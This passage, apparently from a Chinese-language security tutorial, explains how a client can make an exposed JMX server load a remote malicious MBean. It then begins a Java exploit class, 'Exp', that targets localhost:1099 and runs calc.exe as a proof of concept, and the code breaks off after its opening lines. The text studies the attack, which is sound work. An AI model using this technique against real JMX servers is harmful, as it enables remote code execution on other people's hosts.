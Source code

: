 ![](jmx/calc.png)

### 控制jmx server端远程加载MBean

上面的demo是在jmx server本地实现的加载远程MBean，jmx危险之处就在于这一过程我们可以在客户端控制。也就是只要某个主机开启了jmx server端口，我们就可以通过自己编写代码或者使用现成的工具是server端加载远程的恶意类。

自己编写代码，代码同样引用别人的：

```java
import javax.management.InstanceAlreadyExistsException;
import javax.management.MBeanServerConnection;
import javax.management.ObjectInstance;
import javax.management.ObjectName;
import javax.management.openmbean.SimpleType;
import javax.management.remote.JMXConnector;
import javax.management.remote.JMXConnectorFactory;
import javax.management.remote.JMXServiceURL;
import java.net.InetAddress;
import java.util.HashSet;
import java.util.Iterator;


public class Exp {
    public static void main(String[] args){
        connectAndCmd("localhost", "1099", "calc.exe");
    }

    static void connectAndCmd(String serverName, String port, String command){

        try{

```